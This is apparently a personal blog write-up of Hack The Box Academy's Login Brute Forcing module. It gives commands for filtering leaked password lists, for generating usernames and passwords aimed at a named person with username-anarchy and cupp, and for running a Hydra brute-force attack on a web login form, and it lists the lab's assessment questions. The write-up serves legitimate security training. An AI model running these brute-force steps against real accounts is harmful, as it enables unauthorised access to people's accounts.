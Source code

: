 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Login Brute Forcing"
description: "Explore this detailed walkthrough of Hack The Box Academy's Login Brute Forcing module. Learn effective techniques to perform login brute-force attacks, discover common vulnerabilities, and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-10-26 10:51
image:  /images/htb/login-brute-forcing/logo.png
tags:   [authentication,cbbh,brute-forcing]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/details/57">Login Brute Forcing</a><br/>
<a href="https://jacozwarts.github.io/images/htb/login-brute-forcing/Login_Brute_Forcing_Module_Cheat_Sheet.pdf">Login Brute Forcing - Cheat Sheet</a><br/>
<a href="https://academy.hackthebox.com/module/57/section/504">Hydra - Cheat Sheet</a><br/>

<br/>

### Notes:
#### Command to match passwords with min requirements using grep:

```
grep -E '^.{8,}$' darkweb2017-top10000.txt > darkweb2017-minlength.txt
```

#### Custom Wordlists:
```
sudo apt install ruby -y
```
```
git clone https://github.com/urbanadventurer/username-anarchy.git
```
`Use username-anarchy to generate possible usernames:`
```
./username-anarchy Jan van Zyl > jan_van_zyl_usernames.txt
```

![username-anarchy result](/images/htb/login-brute-forcing/username-anarchy-result.png)

`Install cupp`:
```
sudo apt install cupp -y
```
```
cupp -i
```

`Grep command to filter passwords to meet min requirements:`
```
grep -E '^.{6,}$' jan_van_zyl.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jan_van_zyl-filtered.txt
```
`Hydra post example:`
```
hydra -L jan_van_zyl_usernames.txt -P jan_van_zyl-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```
<hr/>

## Skills Assessment
><b>Overview:</b>
The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement: usernames.txt and passwords.txt

### Part 1: Inspect the Source Code and Identify JavaScript Functionality

### Part 1: After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

### Part 2: What is the username of the ftp user you find via brute-forcing?

### Part 2: What is the flag contained within flag.txt
<hr/>